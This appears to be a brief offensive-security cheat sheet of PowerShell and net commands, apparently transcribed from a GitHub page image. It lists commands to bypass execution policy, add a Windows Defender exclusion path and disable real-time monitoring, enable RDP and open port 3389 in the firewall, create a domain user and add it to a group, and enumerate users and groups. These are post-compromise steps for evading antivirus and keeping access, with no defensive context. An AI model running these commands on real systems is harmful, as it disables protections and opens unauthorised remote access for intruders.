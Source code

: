 
## Add Exclusion on Windows Defender
```powershell
# need to be admin or system auth priv 
powershell -ep bypass
Add-MpPreference -ExclusionPath c:\temp
```

## Disable Windows Defender
```powershell
powershell -ep bypass
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Allow RDP over firewall

```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name 'fDenyTSConnections' -Value 0
New-NetFirewallRule -DisplayName 'Remote Desktop' -Direction Inbound -Action Allow -Protocol TCP -LocalPort 3389        
```

## Net Command

```powershell
# add user to domain
net user <username> <pass> /add /domain

# add user to gorup
net group <Groupname> <username> /add /domain

# Get All Users
net user

# Get All Groups
net localgroup

# Details About a Group
net localgroup administrators
```
